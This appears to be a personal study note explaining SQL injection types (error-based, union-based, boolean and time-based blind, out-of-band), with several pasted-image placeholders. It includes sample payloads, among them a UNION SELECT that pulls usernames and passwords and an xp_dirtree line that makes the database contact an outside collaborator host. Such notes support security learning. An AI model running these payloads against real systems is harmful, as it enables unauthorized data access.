 **SQL Injection** - Vulnerability that consists of an attacker interfering with the SQL queries that an application makes to a database.
	
	
	![[Pasted image 20221105203826.png]]

  	If user input is not sanitized properly an sql injection is occurred.
	
	![[Pasted image 20221105205315.png]]

**Impact:**
	**Unauthorized access to sensitive data**
		- ***C**onfidentiality* - SQLi can be used to view sensitive information, such as application usernames and passwords
		- ***I**ntegrity* - SQLi can be used to alter data in the database
		- ***A**vailability* - SQLi can be used to delete data in the database
	**Remote code execution on the operating system**

**Types of SQL Injections** :

	![[Pasted image 20221105210903.png]]
	\ 
		**In-Band**:
			- *Error* - Techniqe where you force the databe to generate an error giving information how things operate at the backend.
			- *Union* -  Techniqe that leverages the union operator to combine the results of 2 queries into a single result set.
		**Inferential**:
			- Boolean - Asking the database true or false questions.
			- Time - Causing the database to pause for specified time.
		**Out-of-Band** 
			Occurs when the attacker is unable to use the same channel to launch the attack and gather the results of the attack. Usually relies on the ability of the application to make a network connection.

**Deep dive into the types of SQLi**:
	**In-Band SQLi**:
		- In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack.
		\ 
		- Retrieved data is presented directly in the application web page.
		\ 
		- Easier to exploit than other categories of SQLi
		\ 
		- Two common types of in-band SQLi
			- **Error-based SQLi** 
				- Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.
				\ 
				- Example: 
					- **Input**: *blahblah.sth?id='*
					\ 
					- **Output**: *You have an error in your SQL sytax, check the manual that corresponds to your MySQL server version…*
					\ 
			- **Union-based SQLi**
				- Union-based SQLI is an in-band SQLi technique that leverages the UNION SQL operator to combine the results of two queries into a single result set.
				- Example:
					- **Input**: *blahblah.sth?id=' UNION SELECT username, password FROM users--*
					- **Output**: 
						- carlos
						- admin
						- Alex
	**Inferential SQLi**:
		- SQLi vulnerability where there is no actual transfer of data via the web application.
		\ 
		- Just as dangerous as in-band SQL injection.
		\ 
		- Attacker able to reconstruct the information by sending particular requests and observingthe resulting behavior of the DB Server.
		\ 
		- Takes longer to exploit than in-band SQL injection.
		\ 
		- Two common types of blind SQLi:
			- **Boolean-based SQLi**:
				- Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result.
				\ 
				- Example:
					 ![[Pasted image 20221105215026.png]]
					 \  
					 ![[Pasted image 20221105215113.png]]
			- **Time-based SQLi**:
				- Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.
			\ 
				- Example:
					- If the first character of the administrator’s hashed password is an ‘a’, wait for 10 seconds.
						 → response takes 10 seconds → first letter is ‘a’ 
						 \ 
						 → response doesn’t take 10 seconds → first letter is not ‘a’
	**Out-of-Band SQLi**:
		- Vulnerability that consists of triggering an out-of-band network connection to a system that you control.
		\ 
		- Not common.
		\ 
		- A variety of protocols can be used (ex. DNS, HTTP)
		\ 
		- Example:
			- *'; exec master..xp_dirtree '//burpcollaborator.net/a'--*
